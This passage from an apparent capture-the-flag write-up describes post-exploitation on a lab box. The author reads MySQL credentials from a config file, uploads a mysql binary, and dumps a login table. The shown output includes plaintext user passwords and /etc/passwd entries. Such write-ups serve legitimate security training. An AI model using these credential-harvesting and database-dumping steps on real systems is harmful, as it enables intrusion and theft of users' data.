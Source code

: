 Once we have a shell, we can read the mysql credentials from `connection.php`. Unfortunately, there
is no `mysql` binary available in the container so we just `scp` up one and use it to dump the
database.

```console
$ /tmp/mysql -h apache_sql -u vulncon -pa8amisa^d8 -h apache_sql -e "use field_data; show tables; select * from login_details"
mysql: [Warning] Using a password on the command line interface can be insecure.
Tables_in_field_data
login_details
id	first_name	last_name	password	email	internal_user
1	John	Doe	Pass123	john@gmail.com	false
2	alice	alice	123	alice@bob.com	false
3	boby	bob	rooe	boby@mail.com	false
4	rock	johnson	3131313	rock@mail.com	false
5	ronald	duck	recking	ronald@duck.com	false
6	jenny	jen	rolaa	jen@pro.com	false
7	fish	fight	fishreal	fish@mail.com	false
8	vulncon	root	jh^sJ9sd	vulncon@mail.com	true
9	many	many	many-s	many@mail.com	false
10	borish	bob	roled	boled@mail.com	false
11	rocket	robbin	robitu	robbin@mail.com	false
12	karma	karmait	karma	karma@mail.com	false
13	dolly	red	dolly	dolly@mail.com	false
14	alice	wonder	alice123#	alice@wonderland.com	false
15	ringit	many	ringit#@#	ringit@many.com	false
16	rahul	re	3232qss	rahul@mail.com	false
17	daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin	bin:x:2:2:bin:/bin:/usr/sbin/nologin	sys:x:3:3:sys:/dev:/usr/sbin/nologin	sync:x:4:65534:sync:/bin:/bin/sync	games:x:5:60:games:/usr/games:/usr/sbin/nologin
18	lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin	mail:x:8:8:mail:/var/mail:/usr/sbin/nologin	news:x:9:9:news:/var/spool/news:/usr/sbin/nologin	uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin	proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
19	backup:x:34:34:backup:/var/backups:/usr/sbin/nologin	list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologinirc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin	gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin	nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
20	systemd-timesync:x:101:101:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin	systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin	systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin	mysql:x:104:110:MySQL Server,,,:/nonexistent:/bin/false	tss:x:105:111:TPM software stack,,,:/var/lib/tpm:/bin/false
21	messagebus:x:107:113::/nonexistent:/usr/sbin/nologin	redsocks:x:108:114::/var/run/redsocks:/usr/sbin/nologin	rwhod:x:109:65534::/var/spool/rwho:/usr/sbin/nologin	iodine:x:110:65534::/run/iodine:/usr/sbin/nologin	tcpdump:x:111:115::/nonexistent:/usr/sbin/nologin
22	_rpc:x:113:65534::/run/rpcbind:/usr/sbin/nologin	usbmux:x:114:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin	rtkit:x:115:122:RealtimeKit,,,:/proc:/usr/sbin/nologin	sshd:x:116:65534::/run/sshd:/usr/sbin/nologin	statd:x:117:65534::/var/lib/nfs:/usr/sbin/nologin
23	avahi:x:119:126:Avahi mDNS daemon,,,:/run/avahi-daemon:/usr/sbin/nologin	stunnel4:x:120:127::/var/run/stunnel4:/usr/sbin/nologin	Debian-snmp:x:121:128::/var/lib/snmp:/bin/false	speech-dispatcher:x:122:29:Speech Dispatcher,,,:/run/speech-dispatcher:/bin/false	sslh:x:123:129::/nonexistent:/usr/sbin/nologin
24	saned:x:125:133::/var/lib/saned:/usr/sbin/nologin	inetsim:x:126:135::/var/lib/inetsim:/usr/sbin/nologin	colord:x:127:136:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin	geoclue:x:128:137::/var/lib/geoclue:/usr/sbin/nologin	king-phisher:x:129:138::/var/lib/king-phisher:/usr/sbin/nologin
25	kali:x:1000:1000:Devang Solanki,,,:/home/kali:/usr/bin/zsh	systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin	strongswan:x:131:65534::/var/lib/strongswan:/usr/sbin/nologin	nm-openvpn:x:132:141:NetworkManager OpenVPN,,,:/var/lib/openvpn/chroot:/usr/sbin/nologin	lightdm:x:133:142:Light Display Manager:/var/lib/lightdm:/bin/false
26	dnsmasq:x:135:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin	libvirt-qemu:x:64055:106:Libvirt Qemu,,,:/var/lib/libvirt:/usr/sbin/nologin
$
```
